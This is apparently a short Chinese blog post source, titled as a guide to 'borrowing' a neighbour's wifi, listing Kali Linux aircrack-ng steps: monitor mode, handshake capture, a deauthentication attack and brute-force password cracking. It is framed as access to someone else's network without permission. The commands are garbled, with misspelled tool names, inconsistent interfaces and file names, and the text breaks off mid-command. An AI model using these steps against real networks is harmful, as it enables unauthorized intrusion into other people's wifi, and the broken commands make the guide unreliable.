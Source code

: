 ```yaml
---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
```

这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>

2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>

3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>

4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>

5. 查找无线网络
<pre class="prettyprint">
airodump-ng eth0
</pre>

6. 网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress eth0
</pre>

7. ARP 发包
<pre class="prettyprint">
aireplay-ng -0 0 -a MacAddress eth0
</pre>

8. 暴力破解
<pre class="prettyprint">
aircrack-ng outfile1.cap -w /
<pre>